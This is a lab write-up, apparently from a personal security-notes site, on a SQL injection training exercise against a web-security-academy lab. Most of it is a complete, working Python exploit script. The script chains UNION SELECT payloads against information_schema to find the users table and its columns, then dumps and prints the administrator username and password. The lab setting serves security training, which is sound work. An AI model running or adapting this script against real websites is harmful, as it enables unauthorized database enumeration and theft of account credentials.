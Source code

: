 ```yaml
---
title: 'SQLi Lab 5'
description: 'SQL injection for metadata enumeration and admin credential extraction'
---
```



## SQL Injection Attack — Listing Database Contents on Non-Oracle Databases

<div style="text-align: justify;">
  In this lab, I explored how SQL injection (SQLi) vulnerabilities can be escalated beyond authentication bypass to full database enumeration. The lab targeted a non-Oracle database (like MySQL or Microsoft SQL Server), using metadata tables such as `information_schema.tables` and `information_schema.columns`.

  By chaining multiple `UNION SELECT` injections, I was able to list all table names, extract sensitive column names like `username` and `password`, and ultimately retrieve administrator credentials. The exercise demonstrated how exposing metadata through SQLi can lead to complete account compromise — a common, yet severe, backend vulnerability.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The `category` parameter is vulnerable to SQL injection.
- A `UNION SELECT` is used to list table names from `information_schema.tables`.
- Another injection pulls column names from `information_schema.columns`.
- The script identifies the table that stores user credentials.
- A final injection dumps usernames and passwords.
- Admin credentials are extracted from the output.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3
from bs4 import BeautifulSoup

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def Get_User_Table(url):
    uri = '/filter?category='
    payload = '\' UNION+SELECT table_name, NULL FROM information_schema.tables--'
    r = requests.get(url + uri + payload , verify=False, proxies=proxies)
    soup = BeautifulSoup(r.text, 'html.parser')
    for th in soup.find_all('th'):
        if th.text.startswith('users_'):
            user_value = th.text
            break
    
    return user_value


def Get_columns(url, Table_Name):
    uri = '/filter?category='
    payload = f"'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='{Table_Name}'--"
    r = requests.get(url + uri + payload , verify=False, proxies=proxies)
    soup = BeautifulSoup(r.text, 'html.parser')
    for th in soup.find_all('th'):
        if th.text.startswith('username_'):
            user_value = th.text
            break

    for th in soup.find_all('th'):
        if th.text.startswith('password_'):
            password_value = th.text
            break
    
    return user_value, password_value


def Get_Administrator_Credentials(url, Get_User_Table, table_name):
    user, pwd = Get_User_Table
    payload = f"' UNION SELECT {user}, {pwd} FROM {table_name}--"
    uri = '/filter?category='
    r = requests.get(url + uri + payload , verify=False, proxies=proxies)
    soup = BeautifulSoup(r.text, 'html.parser')
    
    
    # Find the row where <th> contains "administrator"
    admin_row = soup.find('th', string='administrator')

    if admin_row:
        admin_username = admin_row.text.strip()
        admin_password = admin_row.find_next_sibling('td').text.strip()
        print("Username:", admin_username)
        print("Password:", admin_password)
    else:
        print("Administrator entry not found.")


if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("[-] Usage: %s <url>" %sys.argv[0])
        print('[-] Example: %s www.example.com ' % sys.argv[0])
        sys.exit(-1)    
    
    Get_Administrator_Credentials(url, Get_columns(url, Get_User_Table(url)), Get_User_Table(url))                    
```


<Comment />
